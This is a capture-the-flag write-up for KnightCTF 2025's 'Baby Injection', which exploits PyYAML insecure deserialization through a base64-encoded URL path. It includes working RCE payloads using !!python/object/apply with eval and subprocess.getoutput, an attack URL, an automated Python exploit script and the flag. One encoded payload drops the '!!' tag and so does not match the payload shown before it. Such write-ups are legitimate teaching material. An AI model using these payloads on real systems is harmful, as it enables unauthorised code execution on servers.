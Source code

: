 # Baby Injection

<!--more-->
### Challenge Description

![Challenge Presentation](/images/KnightCTF-2025/Baby-Injection/challenge_presentation.png "Challenge Presentation")

### Initial Analysis

The site appears as follows:

![Site Presentation](/images/KnightCTF-2025/Baby-Injection/site_presentation.png "Site Presentation")

The first thing that immediately stands out is the site's URL:

```
http://172.105.121.246:5990/eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=
```


In fact, that looks like a base64 encoding. Let's try to decode it:

```bash
 echo "eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=" | base64 -d
```

Decoding it, I got the following:

```yml
yaml: Its yaml bro, hack me if you can!!!
```

So, the decoded base64 seems to be reflected on the page, as we can see from the previous screenshot. It seems that since it mentions YAML, this could be a case of YAML insecure deserialization. In fact, looking at the request header, we can tell that everything is being executed with Python. Since Python has a library called PyYAML, we can exploit the deserialization process to achieve Remote Code Execution (RCE). 

### Exploit
I personally used this payload:

```yml
yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]
```

But many other payloads could have been used, such as:

```yml
yaml: !!python/object/apply:subprocess.getoutput ["ls -al"]
```
Other payloads can be found on [PayloadsAllTheThings](). So, I simply encoded it in base64:

```bash
echo "yaml: python/object/apply:subprocess.getoutput ['ls -al']" | base64
```

And that's how I formed the URL for injecting the "ls -al" command:

```
http://172.105.121.246:5990/eWFtbDogcHl0aG9uL29iamVjdC9hcHBseTpzdWJwcm9jZXNzLmdldG91dHB1dCBbJ2xzIC1hbCdd
```

By opening the URL, the command was executed on the server, listing the directories, and in doing so, I found the flag:

![Manual Flag](/images/KnightCTF-2025/Baby-Injection/manual_flag.png "Manual Flag")

### Automated Exploit

I also created an automated Python exploit for extracting the flag:

```python
import requests
import base64
import re

url = "http://172.105.121.246:5990/"
payload = '''yaml: !!python/object/apply:eval ["__import__('os').listdir('.')"]'''
print("\nFLAG: " + re.search(r'KCTF{[a-f0-9]+}', requests.get(url + base64.b64encode(payload.encode('utf-8')).decode('utf-8')).text).group(0))
```

### Flag

```
KCTF{d38787fb0741bd0efdad8ed01f037740}
```
